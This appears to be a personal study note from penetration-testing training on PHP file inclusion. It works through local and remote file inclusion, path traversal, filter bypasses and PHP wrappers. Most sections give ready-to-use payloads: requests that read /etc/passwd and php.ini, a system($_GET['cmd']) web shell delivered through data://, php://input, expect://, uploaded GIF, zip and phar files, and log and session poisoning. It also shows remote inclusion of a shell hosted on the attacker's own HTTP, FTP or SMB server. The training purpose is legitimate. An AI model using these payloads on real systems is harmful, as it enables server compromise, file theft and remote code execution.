

# File inclusion

To reduce the amount of code required, sometimes the page or section to render is passed with a parameter. If this feature is not properly secured an attacker can use this parameter to display the content of any file.

## Local file inclusion

This vulnerability happens typically on templating engines. For example:

`/index.php?page=about` and `about` is a PHP file in the same directory.

File Inclusion vulnerabilities may occur in any web server and any development frameworks, as all of them provide functionalities for loading dynamic content and handling front-end templates.

The most important thing to keep in mind is that some of the above functions only read the content of the specified files, while others also execute the specified files. Furthermore, some of them allow specifying remote URLs, while others only work with files local to the back-end server.

The following table shows which functions may execute files and which only read file content:



### Basic LFI

One example of basic LFI, can be `http://<SERVER_IP>:<PORT>/index.php?language=es.php`. In a webpage, when we change the language, another file is read (`es.php`).

Two common readable files that are available on most back-end servers are `/etc/passwd` on Linux and `C:\Windows\boot.ini` on Windows. So, let's change the parameter from es to /etc/passwd: `http://<SERVER_IP>:<PORT>/index.php?language=/etc/passwd` and we retrieve the `/etc/passwd` file contents.

### Path traversal

There might be cases where the file inclusion is "restricted" to some folder:

```php
include("./languages/" . $_GET['language']);
```

The languages are loaded from the `languages` folder. In this case, if we visit the URL in the previous section, it will not work because it will try to read the file in `./languages/etc/password`.

We can easily bypass this restriction using `relative paths`. We can add `../` to visit the parent directory. So, we can use this trick to go back several directories until we reach the root path (i.e. /), and then specify our absolute file path (e.g. ../../../../etc/passwd), and the file should exist:

`http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/passwd`.

### Filename prefix

On some occasions, our input may be appended after a different string. For example, it may be used with a prefix to get the full filename, like the following example:

```php
include("lang_" . $_GET['language']);
```

In this case, if we try to traverse the directory with ../../../etc/passwd, the final string would be lang_../../../etc/passwd, which is invalid.

instead of directly using path traversal, we can prefix a `/` before our payload, and this should consider the prefix as a directory, and then we should bypass the filename and be able to traverse directories.

This may not always work, as in this example a directory named lang_/ may not exist, so our relative path may not be correct.

### Appended extensions

Sometimes, the extension of the file is included in the backend code:

```php
include($_GET['language'] . ".php");
```

if we try to read /etc/passwd, then the file included would be /etc/passwd.php, which does not exist.

The bypass for this will be discussed in future sections.

### Second order attacks

This occurs because many web application functionalities may be insecurely pulling files from the back-end server based on user-controlled parameters.

For example, a web application may allow us to download our avatar through a URL like (/profile/$username/avatar.png). If we craft a malicious LFI username (e.g. ../../../etc/passwd), then it may be possible to change the file being pulled to another local file on the server and grab it instead of our avatar.

## Basic bypass

The developers usually put some mechanism to protect user inputs. However, most of them can be bypassed.

### Search and replace filter

Detect and deletes substrings of `../`:

```php
$language = str_replace('../', '', $_GET['language']);
```

In this case, it does not replace recursively, it will only replace the first entry of `../`. So, `....//` would become `../` and this way we can retrieve the file.

There are other ways of bypassing the search replace, we may use ..././ or ....\/ and several other recursive LFI payloads. Furthermore, in some cases, escaping the forward slash character may also work to avoid path traversal filters (e.g. ....\/), or adding extra forward slashes (e.g. ....////)

### Encoding

Sometimes, when the payload is URL encoded and the check is implemented poorly, the limitation will be bypassed. For example:

If the target web application did not allow `.` and `/` in our input, we can URL encode `../` into `%2e%2e%2f`, which may bypass the filter.

Sometimes double URL encode might help bypassing the filter.

### Approved paths

Sometimes, the application restrict the user input to make sure if lands in an approved path, e.g.

```php
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) {
    include($_GET['language']);
} else {
    echo 'Illegal path specified!';
}
```
To bypass this, we may use path traversal and start our payload with the approved path, and then use ../ to go back to the root directory and read the file we specify, as follows: `<SERVER_IP>:<PORT>/index.php?language=./languages/../../../../etc/passwd`

### Approved extension

With modern versions of PHP, we may not be able to bypass this and will be restricted to only reading files in that extension, which may still be useful e.g. for reading source code.

#### Path Truncation

In earlier versions of PHP, defined strings have a maximum length of 4096 characters, likely due to the limitation of 32-bit systems. If a longer string is passed, it will simply be truncated, and any characters after the maximum length will be ignored. Furthermore, PHP also used to remove trailing slashes and single dots in path names, so if we call (/etc/passwd/.) then the /. would also be truncated, and PHP would call (/etc/passwd). PHP, and Linux systems in general, also disregard multiple slashes in the path (e.g. ////etc/passwd is the same as /etc/passwd). Similarly, a current directory shortcut (.) in the middle of the path would also be disregarded (e.g. /etc/./passwd).

If we combine both of these PHP limitations together, we can create very long strings that evaluate to a correct path. Whenever we reach the 4096 character limitation, the appended extension (.php) would be truncated, and we would have a path without an appended extension. Finally, it is also important to note that we would also need to start the path with a non-existing directory for this technique to work.

we should calculate the full length of the string to ensure only .php gets truncated

#### Null bytes

Adding a null byte (%00) at the end of the string would terminate the string and not consider anything after it.

To exploit this vulnerability, we can end our payload with a null byte (e.g. `/etc/passwd%00`), such that the final path passed to include() would be (`/etc/passwd%00.php`). This way, even though .php is appended to our string, anything after the null byte would be truncated, and so the path used would actually be /etc/passwd, leading us to bypass the appended extension.

## PHP Filters

PHP has a built-in feature named `PHP Wrappers`. They allow developers to access different I/O stream at application level, such as stdin, stdout, etc...

`PHP filters` are a special type of PHP wrappers to pass different types of input and have it filtered. You can read more about each filter on their respective link, but the filter that is useful for LFI attacks is the `convert.base64-encode` filter, under Conversion Filters.

The first step is to use `fuff` to enumerate PHP files. Normally in php LFI inclusion, the PHP gets executed and the source code cannot be seen.

For example:

`http://<SERVER_IP>:<PORT>/index.php?language=config` will execute the `config.php` file and we'll not see anything in the website.

However, we can leverage php filter to transform the file to base64:

`php://filter/read=convert.base64-encode/resource=config`:

`http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=config`

Later, we can transform the source code using `base64 -d`:

```bash
echo 'PD9waHAK...SNIP...KICB9Ciov' | base64 -d
```

## PHP Wrappers

There are other PHP wrappers that would be extremely useful.

### Data wrapper

The data wrapper can be used to include external data, including PHP code. However, the data wrapper is only available to use if the `allow_url_include` setting is enabled in the PHP configurations.

First we need to check if that flag is enabled or not. In order to do so, we'll use `base64` wrapper to retrieve the files in:

`/etc/php/X.Y/apache2/php.ini` for Apache or,
`/etc/php/X.Y/fpm/php.ini` for nginx.

If we don't know exactly the PHP version, we can try all of them.

For example:

```bash
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
```

Now, we can pass the PHP code we want to execute encoded in base64 to the `data` wrapper:

```bash
echo '<?php system($_GET["cmd"]); ?>' | base64
```

`http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id`

And we can execute any command via PHP. We can do it via cURL:

```bash
adriangalera@htb[/htb]$ curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
            uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Input wrapper

Similar to the data wrapper, the input wrapper can be used to include external input and execute PHP code. The difference between it and the data wrapper is that we pass our input to the input wrapper as a POST request's data. So, the vulnerable parameter must accept POST requests for this attack to work. Finally, the input wrapper also depends on the allow_url_include setting, as mentioned earlier.

```bash
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```

Additionally, we can add the command directly into the data, e.g:

```
<\?php system('id')?>
```

### Expect wrapper

Works in a similar way of the previous one, but it is external and needs to be manually installed. First, we need to check if it's configured checking for `extension=expect` in php.ini

If present, the attack is straightforward:

```bash
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```

## Remote File Inclusion

In some cases, we are able to include not only local files, but remote files. This is very useful to the attacker, since it can host a malicious script in the machine and force the application to include it.

Usually the language has some config that disables RFI completely, but in some cases it is enabled. In PHP, the config is the same as we have seen before: `allow_url_include = On`.

There are some import functions vulnerable to RFI while the others don't. Refer to the table at the beginning for reference.

So, the first step is to verify if we can do a RFI. Try to include a local URL:

`http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php`.

We can use RFI to do Remote Code execution:

We can craft a malicious script:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

and host it in our machine:

```bash
sudo python3 -m http.server <LISTENING_PORT>
```

Later on, we can include our URL as the RFI to perform RCE.

`http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id`


We can host our file using `FTP`:

```bash
sudo python -m pyftpdlib -p 21
```

and include it:

`http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id`

If the server is a Windows machine, we don't need the `allow_url_include`. We can use `SMB` protocol for RFI. This is because Windows treats files on remote SMB servers as normal files

We can spin up a samba server using `impacket smbserver.py`:

```bash
impacket-smbserver -smb2support share $(pwd)
```

And include our URL by using a UNC path:

`http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami`

## LFI and file uploads

If the application allows the user to upload files, this might lead to LFI. For example, an application allow the user to upload an image, however, we can upload a PHP web shell. If the importing function has `Execute` capabilities it will execute the code uploaded.

```bash
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

We then upload this gif as our profile picture. Later in the application, we see where it is imported:

```html

```

in index.php. We just need to pass the `cmd` parameter now:

`http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id`

Something similar can be achieve with the `zip` wrapper (not enabled by default).

We can create a malicious zip disguised as an image:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

And use the `zip` wrapper for RCE:

`http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id`.

We can also use the `phar` wrapper to the same.

To do so, we can write a PHP script:

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

We can compile it into a `phar` file and later rename it to an image:

```bash
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

And similarly include it:

`http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id`

## Log poisoning

This types of attacks rely on importing functions that have the `Execute` privileges. The main idea is that if we are aware of any info that is logged to a file, we can send our malicious payload so that it gets logged. Then, we'll import the poisoned log to be executed.

## PHP Session poisoning

Similar to log poisoning, session data is stored in files in /var/lib/php/sessions/ on Linux and in C:\Windows\Temp\ on Windows. E.g, if the PHPSESSIONID is `el4ukv0kqbvoirg7nkp4dncpk3`, the location in the disk will be `/var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3`.

`http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`

Now, we should look for some value in the session that is under our control. For example, `language`.

We can write a URL-encoded web shell in language:

`http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E`.

Then, when we visit the page with the session LFI, we'll get Remote Code Execution:

`http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id`

## Server log poisoning

We can abuse Apache or Nginx access or error logs to inject some malicious PHP that will be imported with the LFI vulnerability.

We can control the User-Agent of our client, therefore, we can send a request with User-Agent header with the web shell:

```bash
adriangalera@htb[/htb]$ echo -n "User-Agent: <?php system(\$_GET['cmd']); ?>" > Poison
adriangalera@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php" -H @Poison
```

The poisoning technique might be used for SSH, mail or ftp logs.

We should determine first if we have access to the files using the LFI.

## Fuzzing parameters

Usually, the parameters in forms and such are well protected. However, there might be hidden parameters not well secured and vulnerable to LFI.

Example with `fuff`:

```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value'
```

We can find good wordlists for LFI seclists: Fuzzing/LFI and LFI-Jhaddix.

We can use the LFI to discover the contents of the server, for example identifying the server root. For example:

```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' 
```

Depending on our LFI situation, we may need to add a few back directories (e.g. ../../../../), and then add our index.php afterwords.

Same technique can be leveraged to find server configuration or logs. For example, these two wordlists https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux and https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows allows to reveal several configuration and log files.

```bash
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ'
```